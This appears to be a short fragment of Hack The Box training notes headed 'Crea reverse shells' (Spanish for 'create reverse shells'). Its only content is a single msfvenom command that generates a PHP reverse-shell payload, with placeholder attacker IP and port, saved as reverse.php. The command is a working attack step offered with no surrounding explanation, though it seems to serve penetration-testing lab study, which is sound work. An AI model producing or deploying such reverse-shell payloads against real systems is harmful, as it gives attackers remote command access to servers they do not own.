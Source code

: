 
Crea reverse shells


```shell-session
bonack@htb[/htb]$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```

